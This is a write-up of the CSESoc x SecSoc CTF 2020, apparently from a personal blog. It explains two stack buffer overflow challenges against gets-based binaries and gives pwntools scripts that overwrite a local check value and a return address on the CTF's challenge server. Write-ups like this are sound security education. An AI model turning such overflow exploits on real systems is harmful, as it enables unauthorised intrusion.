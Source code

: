 # CSESoc x SecSoc CTF 2020

Despite entering as a team of 4, the CTF was just completed by myself and my good friend [featherbear](https://featherbear.cc/)! We managed to claim first place, being ahead of second place by 20 points.

Checkout his writeup [here](https://featherbear.cc/blog/post/csesoc-secsoc-ctf-2020/) <3

## Binary
These challenges were done by examining the disassembly using Binary Ninja.

### simple
_Key observations:_
* `gets` is used - possible overflow vulnerability
* to take the winning branch, the value at [ebp-0xc] must equal 0x37333331
* buffer starts being written at [ebp-0x20]

_Overview:_
* pad the payload to allow 0x37333331 to be written at [ebp-0xc]

_Code:_
```python
from pwn import *

p = remote('pwn.ctf.unswsecurity.com', 7004)

payload = b''
# pad until check location
payload += b'A' * (0x20-0xC)
# insert required value
payload += p32(0x37333331)

p.sendline(payload)

p.interactive()
```

### exit 1337
_Key observations:_
* 1337%256 = 57 -> `exit` must be given 57 as its argument
* `gets` is used in `vuln` - possible overflow vulnerability
* buffer starts being written at [ebp-0x26]

_Overview:_
* pad the payload to until the return address location at [ebp+4]
* overwrite the return address with the address of where `exit` is called
* append the required value afterwards to set is as the argument

_Code:_
```python
from pwn import *

p = remote('pwn.ctf.unswsecurity.com', 7006)

payload = b''
# pad until the return address
payload += b'A' * (0x26+0x4)
# overwrite return address with address when
#   exit is called
payload += p32(0x8049219)
# set the required argument value
payload += p32(57)

p.sendline(payload)
```